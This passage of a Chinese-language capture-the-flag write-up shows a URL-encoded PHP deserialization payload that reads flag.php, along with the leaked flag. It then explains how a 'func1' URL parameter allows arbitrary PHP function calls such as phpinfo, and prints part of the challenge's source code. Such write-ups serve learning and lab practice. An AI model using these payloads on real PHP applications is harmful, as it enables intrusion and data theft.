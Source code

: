 payload：

```php
data=O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22%00%2A%00skyobj%22%3BO%3A4%3A%22cool%22%3A3%3A%7Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A4%3A%22nice%22%3BN%3Bs%3A6%3A%22amzing%22%3Bs%3A59%3A%22O%3A4%3A%22baby%22%3A3%3A%7Bs%3A9%3A%22+%2A+skyobj%22%3BN%3Bs%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BR%3A3%3B%7D%22%3B%7Ds%3A3%3A%22aaa%22%3BN%3Bs%3A3%3A%22bbb%22%3BR%3A6%3B%7D
```

获取到 flag.php 源代码如下：

```php
<?php
// $flag = 'flag{bd75a38e62ec0e450745a8eb8e667f5b}';
$sth='test5030b66d4bdtest35daed9d51e2688377299test';
```

## Web3 easy


it seems that there are some interesting func in flag.php

观察路由为 `index.php?func1`，`func1=phpinfo` 时发现执行了 phpinfo()，则 `func1` 可动态执行函数，利用 `get_disable_functions` 函数可返回所有已定义的函数数组。

![](/assets/images/move/20191101232043.png)

获得所有内置函数和已定义函数的名称，并且发现函数 `jam_source_ctf_flag`  得到源码：

```php
<?php
//include 'real_flag.php';
function jam_source_ctf_flag(){
    echo file_get_contents('flag.php');
}

class jam_flag{
        public $a;
    function __construct(){
        $this->a = isset($_GET['a'])?$_GET['a']:'123';
    }
    function gen_str($m=6){
        $str = '';
        $str_list = 'abcdefghijklmnopqrstuvwxyz';
        for($i=0;$i<$m;$i++){
            $str .= $str_list[rand(0,strlen($str_list)-1)];
        }
        return $str;
    }
    function GiveYouTheFlag(){
                include 'real_flag.php';
        $secret = $this->gen_str();
        //echo $secret;
        if($secret === $this->a){
```
